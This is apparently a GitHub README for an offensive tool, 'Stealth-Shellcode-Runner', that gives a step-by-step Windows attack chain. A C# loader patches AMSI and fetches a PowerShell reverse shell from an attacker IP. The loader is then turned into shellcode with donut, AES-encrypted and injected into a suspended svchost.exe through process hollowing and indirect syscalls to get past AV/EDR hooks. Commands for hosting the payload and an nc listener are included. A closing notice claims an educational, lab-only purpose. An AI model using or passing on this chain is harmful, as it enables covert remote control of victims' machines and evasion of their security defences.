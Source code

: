# Stealth-Shellcode-Runner

# 🔒 Advanced Shellcode Execution via Process Hollowing and AES Encryption

This project demonstrates a stealthy approach to executing an AES-encrypted PowerShell reverse shell using a custom C# loader, `donut` for shellcode generation, and a custom runner using **full indirect syscalls** and **process hollowing** techniques.

---

## 🧩 Step 1 - Build the PowerShell Loader (`Project_Stealth.cs`)

Create a minimal C# console project and include the following logic to:

- Patch AMSI via `.NET Reflection`
- Download and execute a PowerShell payload (e.g., reverse shell)
- Use base64 obfuscation for script names

📌 **Note:** You must manually add a reference to:
```
C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
```

### Core logic:
```csharp
string attackerIP = "192.168.1.94";
PatchAMSI();
string psUrl = $"http://{attackerIP}/shell.ps1";
string psScript = GetStringFromUrl(psUrl);
ExecutePowerShell(psScript);
```

---

## 🧪 Step 2 - Generate Shellcode with Donut

Use [Donut](https://github.com/TheWover/donut) to convert the compiled loader into shellcode:

```bash
.\donut.exe -i "Project_Stealth.exe" -a 2 -f 1 -o shellcode.bin
```

- `-a 2`: Target .NET assemblies
- `-f 1`: Run the .NET assembly as unmanaged shellcode

---

## 🔐 Step 3 - AES Encrypt the Shellcode

Use the provided Python script to AES-encrypt the generated shellcode. It also formats the output into C# arrays:

```bash
python3 aes_encryptor.py
```

Paste the output into the `ShellCode_Runner.cs` file:

```csharp
byte[] encryptedShellcode = new byte[] { ... };
byte[] aesKey = new byte[] { ... };
byte[] aesIV = new byte[] { ... };
```

---

## 🧠 Step 4 - Execute with Process Hollowing + Indirect Syscalls

Use the included `ShellCode_Runner.cs` script to:

- Create a suspended process (`svchost.exe`)
- Allocate RWX memory using **indirect syscall**
- Decrypt and inject the AES shellcode into the target process
- Change memory protection and launch a remote thread using **indirect syscall**

✅ All key syscalls (`NtAllocateVirtualMemory`, `NtWriteVirtualMemory`, `NtProtectVirtualMemory`, `NtCreateThreadEx`) are executed from manually copied stubs placed in memory, effectively bypassing userland hooks set by AV/EDR.

---

## 🖥️ Hosting the Reverse Shell Payload

The PowerShell reverse shell should be saved as `shell.ps1`.

Then serve the file using Python’s built-in HTTP server:

```bash
python3 -m http.server 80
```

---

## 📡 Setting Up the Listener

To catch the reverse shell, start a listener using `netcat` and `rlwrap` for a better terminal experience:

```bash
rlwrap -cAr nc -lnvp 443
```

---

## ✅ Final Outcome

- AMSI is patched silently via .NET Reflection
- PowerShell payload is downloaded and executed in memory
- Shellcode is encrypted with AES and executed via **fully indirect syscalls**
- Process is created with PPID spoofing
- Tested successfully in OSEP lab environments with Windows Defender enabled

---

**⚠️ Legal Notice:**  
This tool is intended for educational purposes and authorized penetration testing only.  
Do **not** use this code outside of lab environments or without proper authorization.
